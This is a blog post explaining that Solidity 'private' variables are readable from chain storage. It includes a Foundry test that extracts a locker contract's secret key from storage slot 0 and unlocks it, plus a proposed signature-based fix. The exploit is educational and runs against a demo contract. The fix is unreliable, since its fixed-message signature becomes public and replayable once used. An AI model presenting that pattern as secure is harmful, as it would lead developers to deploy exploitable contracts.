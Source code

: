 ```yaml
---
title: Not so private Solidity storage
date: '2023-05-09T00:00:00Z'
modifiedTime: '2023-05-09T00:00:00Z'
summary: Introduce private storage vulnerability. An example of un-authenticated private information retrieval and discuss solution.
image: 'blogs/blockchain/private_storage/cover.webp'
categories: blockchain, security
type: BlogPost
---
```


# Problem introduction

In Solidity, you can define private variables in a contract to keep them hidden from other contracts.
Private variables are only accessible within the contract in which they are defined and cannot be accessed
or modified by other contracts or external users. This behavior is expected from programming languages which support OOP paradigm.

However, it's important to note that private variables are still visible to all participants on the blockchain, including miners and nodes.
This means that the values of private variables are not completely hidden,
and should not be used to store sensitive information such as passwords or private keys.

# An example

We will showcase an exploitation example in Foundry-VM.

## The Locker contract

Let's defined a `Locker` contract with 16bytes `secretKey` as below:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract Locker {
  bool public locked = true; // 1 bytes
  bytes16 private secretKey; // 16 bytes

  constructor(bytes16 _secretKey) {
    secretKey = _secretKey;
  }

  function unlock(bytes16 _key) public {
    require(_key == bytes16(secretKey));
    locked = false;
  }
}

```

## Unlock

If we analyze [storage allocation](https://ethereum.org/en/developers/docs/smart-contracts/anatomy/#data) of the contract above, the result is:

<Image
  src="/blogs/blockchain/private_storage/storage.webp"
  width="1200"
  height="500"
  caption="Storage layout of Locker contract"
/>

Having that information in hand, an example unlocker would perform the following step:

1. Inspect the target contract
2. Load from contract storage slot 0
3. Extract `secretKey = bytes[15..30]` from the storage
4. Use the secret key to unlock.

An example mockup is implemented as follows:

```solidity
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "~/private_lock/Locker.sol"; // the defined Locker contract

contract LockerTest is Test {
  Locker public targetLocker;

  function setUp() public {
    bytes16 secretPhrase = bytes16(keccak256(abi.encodePacked(tx.origin, "SECRET_HASH")));
    targetLocker = new Locker(secretPhrase);
  }

  function breakSecret(Locker _targetLocker) internal view returns (bytes16) {
    // Step 1: Identify the contract
    address lockerAddress = address(_targetLocker);
    // Step 2: Retrieve storage data from at block 0 from the smart contract
    bytes32 secretDataBlock = vm.load(lockerAddress, bytes32(uint256(0)));

    // LAYOUT: 15 "0" | 16 (secretKey) | 1 ("locked" status) [SLOT 0]
    // Step 3: Retrieve byte 16th to 31th, which is the secret key.
    bytes16 secretKey = bytes16(secretDataBlock << (15 * 8));

    return secretKey;
  }

  function testUnlockLocker() public {
    // Step 4: Unlock
    bytes16 secretKey = breakSecret(targetLocker);
    targetLocker.unlock(secretKey);

    bool isUnlocked = !targetLocker.locked();
    assertTrue(isUnlocked, "Hacker should break the lock");
  }
}
```

# Prevention

A simple solution to make the contract more secured is using a pre-defined signature as the secret key.
For this example, I use elliptic curve DSA:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

contract SecureLocker {
  bool public locked = true; // 1 bytes
  address private owner;
  using ECDSA for bytes32;

  constructor(address _owner) {
    owner = _owner;
  }

  function unlock(bytes memory _signature) public {
    // EIP 712 Signature Validation: https://eips.ethereum.org/EIPS/eip-712
    bytes memory eth_msg = abi.encodePacked("\x19Ethereum Signed Message:\n20", "<SECRET_OFFCHAIN_MSG>");
    bytes32 hash = keccak256(eth_msg);
    if (owner == hash.recover(_signature)) {
      locked = false;
    }
  }
}
```

With this setup, the contract owner will store their signature (secret key) offchain and use it on `unlock` calls.

# References

1. [Ethernaut Level 12](https://ethernaut.openzeppelin.com/level/12)
2. [Ethereum storage layout](https://ethereum.org/en/developers/docs/smart-contracts/anatomy/#data)
3. [Ethereum OpCodes](https://ethereum.org/en/developers/docs/evm/opcodes/)

